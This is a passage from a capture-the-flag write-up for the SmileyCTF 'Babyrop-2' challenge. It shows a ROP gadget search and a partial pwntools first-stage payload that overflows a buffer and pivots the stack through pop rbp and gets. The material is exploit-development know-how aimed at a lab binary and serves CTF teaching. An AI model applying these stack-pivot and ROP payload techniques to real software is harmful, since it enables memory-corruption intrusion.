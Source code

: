 ![Pasted image 20250716095624](/images/SmileyCTF/SmileyCTF-Babyrop-2/Pasted_image_20250716095624.png)

Therefore, we need to align RSP to a higher address. The stack in the print function should remain within 0x404000 - 0x405000.

The gadget

```python
(vuln/ELF/x86_64)> search add rsp
[INFO] Searching for gadgets: add rsp

[INFO] File: vuln
0x0000000000401016: add rsp, 8; ret;
```


The payload,

```python

landing_addr = 0x404038
print_addr   = 0x404010
print_call   = 0x401211
pop_rbp_ret  = 0x40115d
gets_call    = 0x401205
add_rsp_8    = 0x401016
leave_ret    = 0x4011cd

### Set rbp to 0x404058 ###

first_stage_payload = flat({
    0x28: [
        pop_rbp_ret,
        landing_addr+0x20,
        gets_call
        ]
    })

io.sendline(first_stage_payload)
log.info(f'first stage out: {io.recv()}')

```